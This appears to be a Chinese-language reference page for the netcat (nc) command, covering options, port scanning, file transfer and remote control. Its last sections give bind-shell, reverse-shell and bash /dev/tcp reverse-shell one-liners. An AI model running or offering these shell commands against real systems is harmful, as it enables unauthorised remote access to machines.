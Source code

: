 nc
===

用于设置路由器，是网络工具中的瑞士军刀。

## 补充说明

**nc命令** 全称**netcat**，用于设置路由器。它能通过 TCP 和 UDP 在网络中读写数据。通过与其他工具结合和重定向，你可以在脚本中以多种方式使用它。使用 netcat 命令所能完成的事情令人惊讶。

###  语法

```shell
nc [-hlnruz][-g<网关...>][-G<指向器数目>][-i<延迟秒数>][-o<输出文件>][-p<通信端口>]
[-s<来源位址>][-v...][-w<超时秒数>][主机名称][通信端口...]
```

###  选项

```shell
-g <网关> # 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目> # 设置来源路由指向器，其数值为4的倍数。
-h 在线帮助。
-i<延迟秒数> 设置时间间隔，以便传送信息及扫描通信端口。
-l 使用监听模式，管控传入的资料。
-n 直接使用IP地址，而不通过域名服务器。
-o<输出文件> # 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p<通信端口> # 设置本地主机使用的通信端口。
-r 乱数指定本地与远端主机的通信端口。
-s<来源位址> # 设置本地主机送出数据包的IP地址。
-u 使用UDP传输协议。
-v 显示指令执行过程。
-w<超时秒数> # 设置等待连线的时间。
-z 使用0输入/输出模式，只在扫描通信端口时使用。
```

### 实例

**TCP端口扫描**

```shell
[root@localhost ~]# nc -v -z -w2 192.168.0.3 1-100 
192.168.0.3: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.0.3] 80 (http) open
(UNKNOWN) [192.168.0.3] 23 (telnet) open
(UNKNOWN) [192.168.0.3] 22 (ssh) open
```

扫描192.168.0.3 的端口 范围是 1-100
**扫描UDP端口**

```shell
[root@localhost ~]# nc -u -z -w2 192.168.0.3 1-1000  # 扫描192.168.0.3 的端口 范围是 1-1000
```

**扫描指定端口**

```shell
[root@localhost ~]# nc -nvv 192.168.0.1 80 # 扫描 80端口
(UNKNOWN) [192.168.0.1] 80 (?) open
y  //用户输入
```

查看从服务器到目的地的出站端口 443 是否被防火墙阻止

```shell
nc -vz acme-v02.api.letsencrypt.org 443 -w2
# Ncat: Version 7.50 ( https://nmap.org/ncat )
# Ncat: Connected to 23.77.214.183:443.
# Ncat: 0 bytes sent, 0 bytes received in 0.07 seconds.
```
**文件传输**

```shell
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz

# 传输方发文件：
nc -nv 192.168.75.121 8888  < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：192.168.75.121是接收方的ip地址。
```

```shell
# 如果希望文件传输结束后自动退出，可以使用下面的命令：
nc -lp 8888 > node.tar.gz
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间
```

**远程控制**

```shell
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888
```

```shell
# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash
```

**反弹shell**

```shell
# 控制端执行下面的命令：
nc -lvnp 8888
```

```
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

